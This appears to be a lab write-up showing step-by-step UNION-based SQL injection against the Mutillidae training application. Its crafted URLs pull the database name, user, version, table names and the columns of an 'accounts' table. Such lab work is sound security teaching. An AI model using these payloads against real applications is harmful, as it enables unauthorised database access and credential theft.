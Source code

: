  As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

 ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/c335915c-3766-4431-ad43-b7e975cd5059)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0eb145ed-0a75-4d46-8c51-48d5708191e1)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.

In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:

union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/3a57e755-40da-4d54-9dba-b7c6cd1ace7f)

The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/5c9a4fa2-a135-4474-8af4-0eeb30daa628)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/fd338e2d-8b91-4f30-b377-3e0808857ca1)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
